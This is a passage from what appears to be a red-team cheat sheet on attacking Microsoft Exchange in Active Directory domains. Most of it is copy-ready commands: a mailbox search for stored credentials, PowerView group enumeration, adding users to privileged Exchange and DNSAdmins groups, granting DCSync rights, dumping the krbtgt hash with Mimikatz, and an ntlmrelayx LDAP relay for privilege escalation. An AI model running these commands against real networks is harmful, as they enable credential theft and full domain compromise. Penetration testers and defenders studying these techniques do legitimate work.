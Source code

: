 ````
- The below command looks for terms like pass, creds, credentials from top 100 emails
```
Invoke-SelfSearch -Mailbox <EMAIL> -ExchHostname <EXCHANGE SERVER NAME> -OutputCsv .\mail.csv
```

#### Exchange ActiveSync
- This attack applies when the DC and Exchange Server are hosted on the same machine
- https://labs.mwrinfosecurity.com/blog/accessing-internal-fileshares-through-exchange-activesync/

### MS Exchange escalating privileges
- Attack is performed cross domain, but can be done inside the domain. Just use the current domain instead of parent domain!
![afbeelding](https://user-images.githubusercontent.com/43987245/119706037-bf8d3000-be59-11eb-84cc-6568ba6e5d26.png)

#### Enumerate if exchange groups exist
```
. ./Powerview.ps1
Get-DomainGroup *exchange* -Domain <DOMAIN>
```

#### Enumerate membership of the groups
```
Get-DomainGroupMember "Organization Management" -Domain <DOMAIN>
Get-DomainGroupMember "Exchange Trusted Subsystem" -Domain <DOMAIN>
Get-DomainGroupMember "Exchange Windows Permissions" -Domain <DOMAIN>
```

#### If we have privileges of a member of the Organization Management, we can add a user to the 'Exchange Windows Permissions' group.
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions' -Domain <DOMAIN>
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

#### Add permissions to execute DCSYNC
- When member of the ```Exchange Windows Permissions``` group
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<CHILD DOMAIN>\<USER>' -Rights DCSync -Verbose
```

#### Execute DCSYNC
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<PARENT DOMAIN>\krbtgt /domain:<PARENT DOMAIN>"'
```

#### If we have privileges of 'exchange user', who is a member of the Exchange Trusted Subsystem, we can add any user to the DNSAdmins group:
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'DNSAdmins' -Domain <DOMAIN>
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

### NTLM Relay MS Exchange abuse
- https://pentestlab.blog/2019/09/04/microsoft-exchange-domain-escalation/
- https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/

#### The attack using domain credentials
- https://github.com/dirkjanm/privexchange/
- Attack takes a minute!
```
sudo python3 ntlmrelayx.py -t ldap://<DC FQDN> --escalate-user <USER>
````